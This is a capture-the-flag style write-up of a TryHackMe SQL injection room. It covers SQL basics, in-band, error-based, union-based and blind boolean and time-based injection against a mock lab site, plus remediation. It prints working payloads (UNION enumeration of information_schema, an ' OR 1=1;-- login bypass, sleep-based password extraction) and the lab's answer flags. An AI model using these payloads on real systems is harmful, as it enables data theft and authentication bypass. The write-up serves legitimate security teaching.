


# Try Hack Me - [SQL Injection](https://tryhackme.com/room/sqlinjectionlm)
##### Learn how to detect and exploit SQL Injection vulnerabilities

## Task 1 - Brief

SQL (Structured Query Language) Injection, mostly referred to as SQLi, is an attack on a web application database server that causes malicious queries to be executed. When a web application communicates with a database using input from a user that hasn't been properly validated, there runs the potential of an attacker being able to steal, delete or alter private and customer data and also attack the web applications authentication methods to private or customer areas. This is why as well as SQLi being one of the oldest web application vulnerabilities, it also can be the most damaging.

In this room, you'll learn what databases are, what SQL is with some basic SQL commands, how to detect SQL vulnerabilities, how to exploit SQLi vulnerabilities and as a developer how you can protect yourself against SQL Injection.
```
What does SQL stand for?
> Structured Query Language
```

## Task 2 - What is a Database?

If you're not used to working with databases or exploiting them, there's probably some new terminology to get used to, so let's start with some basics on how databases are structured and how they work.

#### What is a database?
A database is a way of electronically storing collections of data in an organised manner. A database is controlled by a DBMS which is an acronym for  Database Management System, DBMS's fall into two camps Relational or Non-Relational , the focus of this room will be on Relational databases,  some common one's you'll come across are MySQL, Microsoft SQL Server, Access, PostgreSQL and SQLite. We'll explain the difference between Relational and Non-Relational databases at the end of this task but first, it's important to learn a few terms.

Within a DBMS, you can have multiple databases, each containing its own set of related data. For example, you may have a database called " shop ". Within this database, you want to store information about products available to purchase , users who have signed up to your online shop, and information about the orders you've received. You'd store this information separately in the database using something called tables, the tables are identified with a unique name for each one. You can see this structure in the diagram below, but you can also see how a business might have other separate databases to store staff information or the accounts team.


#### What are tables?
A table is made up of columns and rows, a useful way to imagine a table is like a grid with the columns going across the top from left to right containing the name of the cell and the rows going from top to bottom with each one having the actual data.



#### Columns:
Each column, better referred to as a field has a unique name per table. When creating a column, you also set the type of data it will contain, common ones being integer (numbers), strings (standard text) or dates. Some databases can contain much more complex data, such as geospatial, which contains location information. Setting the data type also ensures that incorrect information isn't stored, such as the string "hello world" being stored in a column meant for dates. If this happens, the database server will usually produce an error message. A column containing an integer can also have an auto-increment feature enabled; this gives each row of data a unique number that grows (increments) with each subsequent row, doing so creates what is called a key field, a key field has to be unique for every row of data which can be used to find that exact row in SQL queries.

#### Rows:
Rows or records are what contains the individual lines of data. When you add data to the table, a new row/record is created, and when you delete data, a row/record is removed.

#### Relational Vs Non-Relational Databases:
A relational database, stores information in tables and often the tables have shared information between them, they use columns to specify and define the data being stored and rows to actually store the data. The tables will often contain a column that has a unique ID (primary key) which will then be used in other tables to reference it and cause a relationship between the tables, hence the name relational database.

Non-relational databases sometimes called NoSQL on the other hand is any sort of database that doesn't use tables, columns and rows to store the data, a specific database layout doesn't need to be constructed so each row of data can contain different information which can give more flexibility over a relational database.  Some popular databases of this type are MongoDB, Cassandra and ElasticSearch.

Now you've learnt what a database is, let's learn how we can actually talk to it using SQL.
```
What is the acronym for the software that controls a database?
> DBMS
```

```
What is the name of the grid-like structure which holds the data?
> table
```

## Task 3 - What is SQL?

SQL (Structured Query Language) is a feature-rich language used for querying databases, these SQL queries are better referred to as statements.

The simplest of the commands which we'll cover in this task is used to retrieve (select), update, insert and delete data. Although somewhat similar, some databases servers have their own syntax and slight changes to how things work. All of these examples are based on a MySQL database. After learning the lessons, you'll easily be able to search for alternative syntax online for the different servers. It's worth noting that SQL syntax is not case sensitive.

**SELECT**

The first query type we'll learn is the SELECT query used to retrieve data from the database.
```sql
select * from users;
```

| id | username | password  |
|----|----------|-----------|
| 1  | jon      | pass123   |
| 2  | admin    | p4ssword  |
| 3  | martin   | secret123 |

The first-word SELECT tells the database we want to retrieve some data, the * tells the database we want to receive back all columns from the table. For example, the table may contain three columns (id, username and password). "from users" tells the database we want to retrieve the data from the table named users. Finally, the semicolon at the end tells the database that this is the end of the query.

The next query is similar to the above, but this time, instead of using the * to return all columns in the database table, we are just requesting the username and password field.

```sql
select username,password from users;
```

| username | password  |
|----------|-----------|
| jon      | pass123   |
| admin    | p4ssword  |
| martin   | secret123 |

The following query, like the first, returns all the columns by using the * selector and then the "LIMIT 1" clause forces the database only to return one row of data. Changing the query to "LIMIT 1,1" forces the query to skip the first result, and then "LIMIT 2,1" skips the first two results, and so on. You need to remember the first number tells the database how many results you wish to skip, and the second number tells the database how many rows to return.

```sql
select * from users LIMIT 1;
```

| id | username | password  |
|----|----------|-----------|
| 1  | jon      | pass123   |

Lastly, we're going to utilise the where clause; this is how we can finely pick out the exact data we require by returning data that matches our specific clauses:

```sql
select * from users where username='admin';
```

| id | username | password  |
|----|----------|-----------|
| 2  | admin    | p4ssword  |


This will only return the rows where the username is equal to admin.

```sql
select * from users where username != 'admin';
```

| id | username | password  |
|----|----------|-----------|
| 1  | jon      | pass123   |
| 3  | martin   | secret123 |

This will only return the rows where the username is NOT equal to admin.

```sql
select * from users where username='admin' or username='jon';
```

| id | username | password |
|----|----------|----------|
| 1  | jon      | pass123  |
| 2  | admin    | p4ssword |

This will only return the rows where the username is either equal to admin or j on .

```sql
select * from users where username='admin' and password='p4ssword';
```

| id | username | password |
|----|----------|----------|
| 2  | admin    | p4ssword |

This will only return the rows where the username is equal to admin , and the password is equal to p4ssword .

Using the like clause allows you to specify data that isn't an exact match but instead either starts, contains or ends with certain characters by choosing where to place the wildcard character represented by a percentage sign %.

```sql
select * from users where username like 'a%';
```

| id | username | password |
|----|----------|----------|
| 2  | admin    | p4ssword |

This returns any rows with username beginning with the letter a.

```sql
select * from users where username like '%n';
```

| id | username | password  |
|----|----------|-----------|
| 1  | jon      | pass123   |
| 2  | admin    | p4ssword  |
| 3  | martin   | secret123 |

This returns any rows with username ending with the letter n.

```sql
select * from users where username like '%mi%';
```

| id | username | password |
|----|----------|----------|
| 2  | admin    | p4ssword |

This returns any rows with a username containing the characters mi within them.


**UNION**

The UNION statement combines the results of two or more SELECT statements to retrieve data from either single or multiple tables; the rules to this query are that the UNION statement must retrieve the same number of columns in each SELECT statement, the columns have to be of a similar data type and the column order has to be the same. This might sound not very clear, so let's use the following analogy. Say a company wants to create a list of addresses for all customers and suppliers to post a new catalogue. We have one table called customers with the following contents:

| id | name             | address         | city       | postcode |
|----|------------------|-----------------|------------|----------|
| 1  | Mr John Smith    | 123 Fake Street | Manchester | M2 3FJ   |
| 2  | Mrs Jenny Palmer | 99 Green Road   | Birmingham | B2 4KL   |
| 3  | Miss Sarah Lewis | 15 Fore Street  | London     | NW12 3GH |

And another called suppliers with the following contents:

| id | company          | address                      | city    | postcode |
|----|------------------|------------------------------|---------|----------|
| 1  | Widgets Ltd      | Unit 1a, Newby Estate        | Bristol | BS19 4RT |
| 2  | The Tool Company | 75 Industrial Road           | Norwich | N22 3DR  |
| 3  | Axe Makers Ltd   | 2b Makers Unit, Market Road  | London  | SE9 1KK  |

Using the following SQL Statement, we can gather the results from the two tables and put them into one result set:

```sql
SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;
```

| name             | address                      | city       | postcode |
|------------------|------------------------------|------------|----------|
| Mr John Smith    | 123 Fake Street              | Manchester | M2 3FJ   |
| Mrs Jenny Palmer | 99 Green Road                | Birmingham | B2 4KL   |
| Miss Sarah Lewis | 15 Fore Street               | London     | NW12 3GH |
| Widgets Ltd      | Unit 1a, Newby Estate        | Bristol    | BS19 4RT |
| The Tool Company | 75 Industrial Road           | Norwich    | N22 3DR  |
| Axe Makers Ltd   | 2b Makers Unit, Market Road  | London     | SE9 1KK  |


**INSERT**
The INSERT statement tells the database we wish to insert a new row of data into the table. "into users" tells the database which table we wish to insert the data into, "(username,password)" provides the columns we are providing data for and then "values ('bob','password');" provides the data for the previously specified columns.

```sql
insert into users (username,password) values ('bob','password123');
```

| id | username | password    |
|----|----------|-------------|
| 1  | jon      | pass123     |
| 2  | admin    | p4ssword    |
| 3  | martin   | secret123   |
| 4  | bob      | password123 |


**UPDATE**
The UPDATE statement tells the database we wish to update one or more rows of data within a table. You specify the table you wish to update using " update %tablename% SET " and then select the field or fields you wish to update as a comma-separated list such as " username='root',password='pass123' " then finally similar to the SELECT statement, you can specify exactly which rows to update using the where clause such as " where username='admin; ".

```sql
update users SET username='root',password='pass123' where username='admin';
```

| id | username | password    |
|----|----------|-------------|
| 1  | jon      | pass123     |
| 2  | root     | pass123     |
| 3  | martin   | secret123   |
| 4  | bob      | password123 |

**DELETE**
The DELETE statement tells the database we wish to delete one or more rows of data. Apart from missing the columns you wish to be returned, the format of this query is very similar to the SELECT. You can specify precisely which data to delete using the where clause and the number of rows to be deleted using the LIMIT clause.

```sql
delete from users where username='martin';
```

| id | username | password    |
|----|----------|-------------|
| 1  | jon      | pass123     |
| 2  | root     | pass123     |
| 4  | bob      | password123 |

```sql
delete from users;
```

Because no WHERE clause was being used in the query, all the data is deleted in the table.

| id | username | password    |
|----|----------|-------------|

```
What SQL statement is used to retrieve data?
> SELECT
```

```
What SQL clause can be used to retrieve data from multiple tables?
> UNION
```

```
What SQL statement is used to add data?
> INSERT
```

## Task 4 - What is SQL Injection?

#### What is SQL Injection?
The point wherein a web application using SQL can turn into SQL Injection is when user-provided data gets included in the SQL query.

#### What does it look like?
Take the following scenario where you've come across an online blog, and each blog entry has a unique id number. The blog entries may be either set to public or private depending on whether they're ready for public release. The URL for each blog entry may look something like this:

```
https://website.thm/blog?id=1
```

From the URL above, you can see that the blog entry been selected comes from the id parameter in the query string. The web application needs to retrieve the article from the database and may use an SQL statement that looks something like the following:

```sql
SELECT * from blog where id=1 and private=0 LIMIT 1;
```

From what you've learned in the previous task, you should be able to work out that the SQL statement above is looking in the blog table for an article with the id number of 1 and the private column set to 0, which means it's able to be viewed by the public and limits the results to only one match.

As was mentioned at the start of this task, SQL Injection is introduced when user input is introduced into the database query. In this instance, the id parameter from the query string is used directly in the SQL query.

Let's pretend article id 2 is still locked as private, so it cannot be viewed on the website. We could now instead call the URL:

```
https://website.thm/blog?id=2;--
```

Which would then, in turn, produce the SQL statement:

```sql
SELECT * from blog where id=2;-- and private=0 LIMIT 1;
```

The semicolon in the URL signifies the end of the SQL statement, and the two dashes cause everything afterwards to be treated as a comment . By doing this, you're just, in fact, running the query:

```sql
SELECT * from blog where id=2;--
```

Which will return the article with an id of 2 whether it is set to public or not.

This was just one example of an SQL Injection vulnerability of a type called In-Band SQL Injection; there are 3 types in total In-Band, Blind and Out Of Band, which we'll discuss over the next tasks.
```
What character signifies the end of an SQL query?
> ;
```

## Task 5 - In-Band SQLi

#### In-Band SQL Injection
In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.

#### Error-Based SQL Injection
This type of SQL Injection is the most useful for easily obtaining information about the database structure as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database.

#### Union-Based SQL Injection
This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.

#### Practical:
Click the green "Start Machine" button to use the SQL Injection Example practice lab. Each level contains a mock browser and also SQL Query and Error boxes to assist in getting your queries/payload correct.

Level one of the practice lab contains a mock browser and website featuring a blog with different articles, which can be accessed by changing the id number in the query string.

The key to discovering error-based SQL Injection is to break the code's SQL query by trying certain characters until an error message is produced; these are most commonly single apostrophes ( ' ) or a quotation mark ( " ).

Try typing an apostrophe ( ' ) after the id=1 and press enter. And you'll see this returns an SQL error informing you of an error in your syntax. The fact that you've received this error message confirms the existence of an SQL Injection vulnerability. We can now exploit this vulnerability and use the error messages to learn more about the database structure.

The first thing we need to do is return data to the browser without displaying an error message. Firstly we'll try the UNION operator so we can receive an extra result of our choosing. Try setting the mock browsers id parameter to:

```sql
1 UNION SELECT 1
```

This statement should produce an error message informing you that the UNION SELECT statement has a different number of columns than the original SELECT query. So let's try again but add another column:

```sql
1 UNION SELECT 1,2
```

Same error again, so let's repeat by adding another column:

```sql
1 UNION SELECT 1,2,3
```

Success, the error message has gone, and the article is being displayed, but now we want to display our data instead of the article. The article is being displayed because it takes the first returned result somewhere in the web site's code and shows that. To get around that, we need the first query to produce no results. This can simply be done by changing the article id from 1 to 0.

```sql
0 UNION SELECT 1,2,3
```

You'll now see the article is just made up of the result from the UNION select returning the column values 1, 2, and 3. We can start using these returned values to retrieve more useful information. First, we'll get the database name that we have access to:

```sql
0 UNION SELECT 1,2,database()
```

You'll now see where the number 3 was previously displayed; it now shows the name of the database, which is sqli_one .

Our next query will gather a list of tables that are in this database.

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

There are a couple of new things to learn in this query. Firstly, the method group_concat() gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. The next thing is the information_schema database; every user of the database has access to this, and it contains information about all the databases and tables the user has access to. In this particular query, we're interested in listing all the tables in the sqli_one database, which is article and staff_users.

As the first level aims to discover Martin's password, the staff_users table is what is of interest to us. We can utilise the information_schema database again to find the structure of this table using the below query.

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

This is similar to the previous SQL query. However, the information we want to retrieve has changed from table_name to column_name , the table we are querying in the information_schema database has changed from tables to columns , and we're searching for any rows where the table_name column has a value of staff_users .

The query results provide three columns for the staff_users table: id, password, and username. We can use the username and password columns for our following query to retrieve the user's information.

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

Again we use the group_concat method to return all of the rows into one string and to make it easier to read. We've also added ,':', to split the username and password from each other. Instead of being separated by a comma, we've chosen the HTML <br> tag that forces each result to be on a separate line to make for easier reading.

You should now have access to Martin's password to enter to move to the next level.
```
What is the flag after completing level 1?
> THM{SQL_INJECTION_3840}
```

## Task 6 - Blind SQLi - Authentication Bypass

#### Blind SQLi

Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless. It might surprise you that all we need is that little bit of feedback to successful enumerate a whole database.

#### Authentication Bypass
One of the most straightforward Blind SQL Injection techniques is when bypassing authentication methods such as login forms. In this instance, we aren't that interested in retrieving data from the database; We just want to get past the login.

Login forms that are connected to a database of users are often developed in such a way that the web application isn't interested in the content of the username and password but more whether the two make a matching pair in the users table. In basic terms, the web application is asking the database "do you have a user with the username bob and the password bob123 ?", and the database replies with either yes or no (true/false) and, depending on that answer, dictates whether the web application lets you proceed or not.

Taking the above information into account, it's unnecessary to enumerate a valid username/password pair. We just need to create a database query that replies with a yes/true.

#### Practical:
Level Two of the SQL Injection examples shows this exact example. We can see in the box labelled "SQL Query" that the query to the database is the following:

```sql
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

N.B The %username% and %password% values are taken from the login form fields, the initial values in the SQL Query box will be blank as these fields are currently empty.

To make this into a query that always returns as true, we can enter the following into the password field:

```sql
' OR 1=1;--
```

Which turns the SQL query into the following:

```sql
select * from users where username='' and password='' OR 1=1;
```

Because 1=1 is a true statement and we've used an OR operator, this will always cause the query to return as true, which satisfies the web applications logic that the database found a valid username/password combination and that access should be allowed.
```
What is the flag after completing level two? (and moving to level 3)
> THM{SQL_INJECTION_9581}
```

## Task 7 - Blind SQLi - Boolean Based

#### Boolean Based
Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false, yes/no, on/off, 1/0 or any response which can only ever have two outcomes. That outcome confirms to us that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, in fact, with just these two responses, it's possible to enumerate a whole database structure and contents.

#### Practical:
On level three of the SQL Injection Examples Machine, you're presented with a mock browser with the following URL:

https://website.thm/checkuser?username=admin

The browser body contains the contents of {"taken":true} . This API endpoint replicates a common feature found on many signup forms, which checks whether a username has already been registered to prompt the user to choose a different username. Because the taken value is set to true , we can assume the username admin is already registered. In fact, we can confirm this by changing the username in the mock browser's address bar from admin to admin123 , and upon pressing enter, you'll see the value taken has now changed to false .

The SQL query that is processed looks like the following:

```sql
select * from users where username = '%username%' LIMIT 1;
```

As the only input, we have control over is the username in the query string, we'll have to use this to perform our SQL Injection. Keeping the username as admin123 , we can start appending to this to try and make the database confirm true things, which will change the state of the taken field from false to true.

Like in previous levels, our first task is to establish the number of columns in the users table, which we can achieve by using the UNION statement. Change the username value to the following:

```sql
admin123' UNION SELECT 1;--
```

As the web application has responded with the value taken as false, we can confirm this is the incorrect value of columns. Keep on adding more columns until we have a taken value of true . You can confirm that the answer is three columns by setting the username to the below value:

```sql
admin123' UNION SELECT 1,2,3;--
```

Now that our number of columns has been established, we can work on the enumeration of the database. Our first task is discovering the database name. We can do this by using the built-in database() method and then using the like operator to try and find results that will return a true status.

Try the below username value and see what happens:

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```

We get a true response because, in the like operator, we just have the value of % , which will match anything as it's the wildcard value. If we change the wildcard operator to a% , you'll see the response goes back to false, which confirms that the database name does not begin with the letter a . We can cycle through all the letters, numbers and characters such as - and _ until we discover a match. If you send the below as the username value, you'll receive a true response that confirms the database name begins with the letter s .

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```

Now you move onto the next character of the database name until you find another true response, for example, 'sa%', 'sb%', 'sc%' etc. Keep on with this process until you discover all the characters of the database name, which is sqli_three .

We've established the database name, which we can now use to enumerate table names using a similar method by utilising the information_schema database. Try setting the username to the following value:

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

This query looks for results in the information_schema database in the tables table where the database name matches sqli_three , and the table name begins with the letter a. As the above query results in a false response, we can confirm that there are no tables in the sqli_three database that begin with the letter a. Like previously, you'll need to cycle through letters, numbers and characters until you find a positive match.

You'll finally end up discovering a table in the sqli_three database named users, which you can be confirmed by running the following username payload:

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

Lastly, we now need to enumerate the column names in the users table so we can properly search it for login credentials. Again using the information_schema database and the information we've already gained, we can start querying it for column names. Using the payload below, we search the columns table where the database is equal to sqli_three, the table name is users, and the column name begins with the letter a.

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

Again you'll need to cycle through letters, numbers and characters until you find a match. As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name, so you don't keep discovering the same one. For example, once you've found the column named id , you'll append that to your original payload (as seen below).

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

Repeating this process three times will enable you to discover the columns id, username and password. Which now you can use to query the users table for login credentials. First, you'll need to discover a valid username which you can use the payload below:

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```

Which, once you've cycled through all the characters, you will confirm the existence of the username admin . Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:

```sql
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

Cycling through all the characters, you'll discover the password is 3845.

You can now use the username and password you've enumerated through the blind SQL Injection vulnerability on the login form to access the next level.
```
What is the flag after completing level three?
> THM{SQL_INJECTION_1093}
```

## Task 8 - Blind SQLi - Time Based

#### Time-Based
A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced by using built-in methods such as SLEEP(x) alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement.

So, for example, when trying to establish the number of columns in a table, you would use the following query:

```sql
admin123' UNION SELECT SLEEP(5);--
```

If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:

```sql
admin123' UNION SELECT SLEEP(5),2;--
```

This payload should have produced a 5-second time delay, which confirms the successful execution of the UNION statement and that there are two columns.

You can now repeat the enumeration process from the Boolean based SQL Injection, adding the SLEEP() method into the UNION SELECT statement.

If you're struggling to find the table name the below query should help you on your way:

```sql
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```

```
admin123' UNION SELECT sleep(5),2 from users where username='admin' and length(password) < 20; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and length(password) < 10; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and length(password) < 5; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and length(password) = 4; --

admin123' UNION SELECT sleep(5),2 from users where username='admin' and substring(password, 1, 1) REGEXP '[0-9]'; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and substring(password, 2, 1) REGEXP '[0-9]'; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and substring(password, 3, 1) REGEXP '[0-9]'; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and substring(password, 4, 1) REGEXP '[0-9]'; --

admin123' UNION SELECT sleep(5),2 from users where username='admin' and password < 5000; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 2500; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 3750; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4375; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4687; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4843; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4921; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4961; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4941; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4951; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4956; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4958; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password > 4959; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password = 4960; --
admin123' UNION SELECT sleep(5),2 from users where username='admin' and password = 4961; --

THM{SQL_INJECTION_MASTER}
```

```
What is the final flag after completing level four?
> THM{SQL_INJECTION_MASTER}
```

## Task 9 - Out-of-Band SQLi

Out-of-Band SQL Injection isn't as common as it either depends on specific features being enabled on the database server or the web application's business logic, which makes some kind of external network call based on the results from an SQL query.

An Out-Of-Band attack is classified by having two different communication channels, one to launch the attack and the other to gather the results. For example, the attack channel could be a web request, and the data gathering channel could be monitoring HTTP/DNS requests made to a service you control.
1) An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.
2) The Website makes an SQL query to the database which also passes the hacker's payload.
3) The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.


```
Name a protocol beginning with D that can be used to exfiltrate data from a database.
> DNS
```

## Task 10 - Remediation

#### Remediation
As impactful as SQL Injection vulnerabilities are, developers do have a way to protect their web applications from them by following the below advice:

#### Prepared Statements (With Parameterized Queries):
In a prepared query, the first thing a developer writes is the SQL query and then any user inputs are added as a parameter afterwards. Writing prepared statements ensures that the SQL code structure doesn't change and the database can distinguish between the query and the data. As a benefit, it also makes your code look a lot cleaner and easier to read.

#### Input Validation:
Input validation can go a long way to protecting what gets put into an SQL query. Employing an allow list can restrict input to only certain strings, or a string replacement method in the programming language can filter the characters you wish to allow or disallow.

#### Escaping User Input:
Allowing user input containing characters such as ' " $ \ can cause SQL Queries to break or, even worse, as we've learnt, open them up for injection attacks. Escaping user input is the method of prepending a backslash ( \ ) to these characters, which then causes them to be parsed just as a regular string and not a special character.
```
Name a method of protecting yourself from an SQL Injection exploit.
> Prepared Statements
```

## Additional Resources